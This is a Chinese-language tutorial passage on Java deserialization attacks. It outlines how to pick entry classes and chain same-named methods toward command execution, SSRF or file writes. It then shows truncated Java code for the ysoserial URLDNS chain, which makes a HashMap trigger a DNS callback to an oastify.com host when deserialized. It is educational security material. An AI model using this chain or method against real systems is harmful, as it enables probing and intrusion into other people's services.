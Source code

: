 ## Java反序列化基础

### 思路

>    想要实现一个反序列攻击

-   **首先需要寻找到一个入口类，这个入口类的最好是jdk自带的而且具有以下条件**
    -   **==可序列化，重新了readObject方法，接受任意类作为参数==**
    -   **攻击类中最好可以包含其他类，什么类都行，包含Object类是最好的**
    -   **然后这个被包含的类必须重写它的readObject方法，然后再在它的readObject方法 里面调用一个常见的函数**
    -   比如：Object类中的equal、hasCode等函数，这个是每个类都有的
    -   **符合以上条件的类比如：hasMap类**

-   **调用链的问题**
    -   **这里的利用思路就是：根据同名函数、相同类型调用**
        -   例如：本来它想调用的函数是函数A，然后你让它调用了一个跟它名字一样都叫函数A，但代码体不一样的函数
        -   然后一直调用，最终去调用到执行命令或者写文件等执行类
    -   相同的类型指的就是：它可能继承了相同的父类，然后有相同的方法
-   **执行类**
    -   这就看你需要：rce、ssrf还是写文件

#### 案例

>   看一个`URLDNS`的反序列化案例，学习一下思路
>
>   这个`URLDNS`是`ysoserial`中的一条利用链，通常用于检测是否存在`Java`反序列化漏洞

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * 功能：
 *
 * @author 长瀞同学
 * @ClassName Test
 * @description
 * @date 2023-05-07 17:39
 * @Version 1.0
 */
public class Test {

    public static void main(String[] args) throws Exception {

        HashMap<URL, Integer> hashMap = new HashMap<URL, Integer>();
		// 填写dns地址，可以使用网站：dnslog.cn或者dnslog.pm
        URL url = new URL("http://7em882jumjpjnq4ziw55yttnieo5cu.oastify.com");
        Class<? extends URL> urlClass = url.getClass();
		// 获取到hashcode属性
        Field hashCode = urlClass.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,123);
        hashMap.put(url,1);
		// 修改会hashcode的值，让其在反序列的时候触发dns解析
        hashCode.set(url,-1);
        serialize(hashMap);

    }


```